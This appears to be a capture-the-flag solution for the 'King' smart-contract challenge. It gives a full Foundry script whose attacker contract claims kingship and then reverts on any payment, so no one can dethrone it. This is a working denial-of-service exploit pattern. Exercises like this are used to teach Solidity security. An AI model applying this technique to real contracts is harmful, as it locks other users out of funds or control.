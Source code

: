 **Here's the Foundry script that solves the challenge**
```foundry
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";
import {King} from "../src/King.sol";

contract AttackKing {
    King public kingInstance;
    
    constructor(address _kingAddress) {
        kingInstance = King(payable(_kingAddress));
    }

    function attack() external payable {
        require(msg.value > kingInstance.prize(), "Not enough Ether sent");
        (bool success, ) = address(kingInstance).call{value: msg.value}("");
        require(success, "Attack failed");
    }
    
    // Add receive function to prevent becoming king
    receive() external payable {
        revert("you cannot become the king after me !");
    }
}

contract KingSolution is Script {
    address public constant KING_ADDRESS = 0x21Db1389ee2685588750B87f98684490219e6948;
    
    function run() public {

        console.log("old King Address:",  King(payable(KING_ADDRESS))._king());

        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        AttackKing attackKing = new AttackKing(KING_ADDRESS);
        
        uint256 currentPrize = King(payable(KING_ADDRESS)).prize();
        console.log("Current Prize:", currentPrize);
        
        attackKing.attack{value: currentPrize + 0.001 ether}();
        
        vm.stopBroadcast();
        
        address currentKing = King(payable(KING_ADDRESS))._king();
        console.log("New King:", currentKing);
    }
}
```
One and only king - ME -lol

---